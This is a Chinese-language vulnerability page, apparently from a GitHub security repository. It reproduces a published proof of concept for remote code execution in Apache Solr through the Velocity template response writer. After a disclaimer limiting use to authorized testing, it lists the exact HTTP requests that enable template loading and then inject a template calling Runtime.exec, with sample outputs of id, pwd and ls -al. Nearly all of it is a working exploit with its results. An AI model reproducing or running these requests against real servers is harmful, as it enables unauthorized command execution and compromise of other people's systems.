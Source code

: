 ### 声明

此处提供的漏洞检测方法、文件等内容，均仅限于安全从业者在获得法律授权的情况下使用，目的是检测已授权的服务器的安全性。安全从业者务必遵守法律规定，禁止在没有得到授权的情况下做任何漏洞检测。

### 漏洞检测

2019.10.30 国外@_S00pY发布RCE via Velocity template PoC

内容如下
```
Apache Solr RCE via Velocity template

Set "params.resource.loader.enabled" as true.

Request:
========================================================================
POST /solr/test/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
========================================================================


RCE via velocity template
Request:
========================================================================
GET /solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: localhost:8983
========================================================================


Response:
========================================================================
HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Content-Length: 56

     0  uid=8983(solr) gid=8983(solr) groups=8983(solr)
========================================================================
```


#### 第1步

设置VelocityResponseWriter插件的params.resource.loader.enabled选项设置为true

Apache Solr默认带有VelocityResponseWriter插件，该插件的params.resource.loader.enabled选项(默认为false)，用来控制是否允许resource.loader在Solr请求参数中指定模版。

以下HTTP请求会设置VelocityResponseWriter插件的params.resource.loader.enabled选项设置为true，即允许用户通过HTTP请求指定资源的加载。

```
POST /solr/core_name/config HTTP/1.1
Host: solr.com:8983
Content-Type: application/json
Content-Length: 293

{
      "update-queryresponsewriter": {
        "startup": "lazy",
        "name": "velocity",
        "class": "solr.VelocityResponseWriter",
        "template.base.dir": "",
        "solr.resource.loader.enabled": "true",
        "params.resource.loader.enabled": "true"
      }
}
```

测试发现

`HTTP/1.1 200 OK`表示修改成功；
否则失败（可能因为这个core对应的solrconfig.xml没配置VelocityResponseWriter插件）

#### 第2步

构造一个自定义的Velocity模版，可实现执行任意系统命令

这里执行命令`ls -al`

```
GET /solr/core_name/select?q=1&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27ls%20-al%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: solr.com:8983
Connection: close
```

命令执行结果 见HTTP response Body.

**例1** 执行`pwd`

得到Response
```
HTTP/1.1 200 OK
Connection: close
Content-Type: text/html;charset=utf-8
Content-Length: 27

 0 /root/solr-7.7.2/server
```

**例2** 执行`ls -al`

得到Response
```
HTTP/1.1 200 OK
Connection: close
Content-Type: text/html;charset=utf-8
Content-Length: 676

 0 total 208
drwxr-xr-x 11 root root   4096 Oct 31  2019 .
drwxr-xr-x  9 root root   4096 May 28  2019 ..
drwxr-xr-x  2 root root   4096 May 28  2019 contexts
drwxr-xr-x  2 root root   4096 May 28  2019 etc
drwxr-xr-x  3 root root   4096 May 28  2019 lib
drwxr-xr-x  2 root root   4096 Oct 31  2019 logs
drwxr-xr-x  2 root root   4096 May 28  2019 modules
-rw-r--r--  1 root root   4068 May 28  2019 README.txt
drwxr-xr-x  2 root root   4096 May 28  2019 resources
drwxr-xr-x  3 root root   4096 May 28  2019 scripts
drwxr-xr-x  6 root root   4096 Oct 31  2019 solr
drwxr-xr-x  3 root root   4096 May 28  2019 solr-webapp
-rw-r--r--  1 root root 160625 Nov 14  2018 start.jar
```

